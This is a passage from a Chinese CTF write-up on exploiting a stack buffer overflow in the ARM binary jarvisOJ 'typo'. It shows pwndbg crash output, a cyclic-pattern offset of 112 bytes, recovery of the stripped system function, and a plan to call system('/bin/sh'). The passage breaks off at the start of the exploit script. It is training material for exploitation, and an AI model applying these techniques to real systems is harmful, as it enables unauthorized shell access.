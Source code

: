 ```assembly
 R2   0x7e
 R3   0x0
 R4   0x62616162 ('baab')
 R5   0x0
 R6   0x0
 R7   0x0
 R8   0x0
 R9   0xa5ec ◂— push   {r3, r4, r5, r6, r7, r8, sb, lr}
 R10  0xa68c ◂— push   {r3, r4, r5, lr}
 R11  0x62616163 ('caab')
 R12  0x0
 SP   0xfffef098 ◂— 0x62616165 ('eaab')
 PC   0x62616164 ('daab')
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
Invalid address 0x62616164










────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ sp  0xfffef098 ◂— 0x62616165 ('eaab')
01:0004│     0xfffef09c ◂— 0x62616166 ('faab')
02:0008│     0xfffef0a0 ◂— 0x62616167 ('gaab')
03:000c│     0xfffef0a4 ◂— 0x62616168 ('haab')
04:0010│     0xfffef0a8 ◂— 0x62616169 ('iaab')
05:0014│     0xfffef0ac ◂— 0x6261616a ('jaab')
06:0018│     0xfffef0b0 ◂— 0x6261616b ('kaab')
07:001c│     0xfffef0b4 ◂— 0x6261616c ('laab')
Program received signal SIGSEGV
pwndbg> cyclic -l 0x62616164
112
```
因此 padding 长度即为 112
> 或者可以更暴力一点直接爆破栈溢出的长度

至于 system 的地址，因为这个 binary 被去除了符号表，我们可以先用 `rizzo` 来恢复部分符号表（关于恢复符号表暂时可以先看参考链接，以后会逐渐介绍）。虽然 rizzo 在这个 binary 上恢复的效果不好，但很幸运，在识别出来的几个函数中刚好有 system
```C
char *__fastcall system(int a1)
{
  char *result; // r0

  if ( a1 )
    result = sub_10BA8(a1);
  else
    result = (char *)(sub_10BA8((int)"exit 0") == 0);
  return result;
}
```
> 或者可以通过搜索 /bin/sh 字符串来寻找 system 函数
## exp
所有的条件都有了，构造 system("/bin/sh") 即可
```
jarvisOJ_typo [master●●] cat solve.py 
#!/usr/bin/env python
```